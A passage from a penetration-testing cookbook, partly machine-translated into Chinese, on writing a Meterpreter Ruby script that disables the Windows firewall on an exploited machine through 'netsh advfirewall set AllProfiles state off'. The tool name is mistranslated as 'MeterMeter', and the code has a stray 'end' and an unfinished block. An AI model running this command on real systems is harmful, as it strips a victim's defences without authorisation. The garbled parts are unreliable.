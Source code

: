 我们将在这里开发的脚本是一个 Windows Vista/7 防火墙反激活器脚本。它将使用名为 `netsh`的 Windows 命令，MeterMeter 将使用名为 `cmd_exec()`的 mixin 在目标机器上执行该命令。

## 准备好了吗

MeterMeter 脚本与被利用的客户端一起在上下文中运行，因此您可以更轻松地专注于希望通过脚本执行的任务。您不必担心连接性或任何其他参数。让我们看看在编写 MeterMeter 脚本时应该牢记的一些重要准则

*   **避免全局变量：**这是在任何框架上编码的一般原则。应避免使用全局变量，因为它们可能会干扰框架变量。仅使用实例、局部和常量变量。
*   **注释的使用：**编写代码时注释是必不可少的。这可以帮助您跟踪负责特定操作的部件。
*   **包括参数：**您可能已经注意到，在一些食谱中，我们是如何随脚本传递参数的。最基本但最有用的参数是 `-h`或 `help`选项。
*   **打印结果：**打印操作结果可以证明脚本执行成功还是失败。应广泛使用 `print_status, print_error`等不同的打印调用来显示相关信息。
*   **平台验证：**确保您验证了希望脚本在其上执行操作的平台。
*   **维护文件约定：**完成脚本编写后，保存在 `/pentest/exploits/framework3/scripts/meterpreter`下。遵循框架文件约定可以避免任何冲突。
*   **混合器的使用：**混合器是 MeterMeter 中的一个重要概念。使用 mixin，我们可以使脚本看起来更简单、更容易。

在编写 MeterMeter 脚本时，应牢记这些准则。

让我们打开任何文本编辑器开始编写 Ruby 脚本。如果您正在处理回溯，则可以使用 Gedit 文本编辑器。

## 怎么做。。。

1.  Type the following lines of code in the text editor. Before moving on to the explanation section, give a thorough look at the script and try to figure out what each line means. The script is easy to catch.

    ```
    # Author: Abhinav Singh
    # Windows Firewall De-Activator
    #Option/parameter Parsing
    opts = Rex::Parser::Arguments.new(
    "-h" => [ false, "Help menu." ]
    )
    opts.parse(args) { |opt, idx, val|
    case opt
    when "-h"
    print_line "Meterpreter Script for disabling the Default windows Firelwall"
    print_line "Let's hope it works"
    print_line(opts.usage)
    raise Rex::Script::Completed
    end
    }
    # OS validation and command execution
    unsupported if client.platform !~ /win32|win64/i
    end
    begin
    print_status("disabling the default firewall")
    cmd_exec('cmd /c','netsh advfirewall set AllProfiles state off',5) 
    ```
